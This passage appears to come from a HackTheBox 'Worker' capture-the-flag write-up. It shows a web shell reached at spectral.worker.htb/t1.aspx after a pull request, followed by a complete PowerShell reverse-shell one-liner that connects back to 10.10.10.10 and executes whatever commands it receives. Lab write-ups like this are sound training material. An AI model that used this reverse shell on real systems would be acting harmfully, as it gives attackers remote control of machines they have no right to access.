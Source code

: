 and i issued a pull request

<img src="./img/pullrequest.png"  width="650"/>

I added `spectral.worker.htb` to hosts file and go on `spectral.worker.htb/t1.aspx`

<img src="./img/shell.png"  width="650"/>

So i opened a listener on local machine and executed the following command on remote shell

```powershell
powershell -np -c "$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
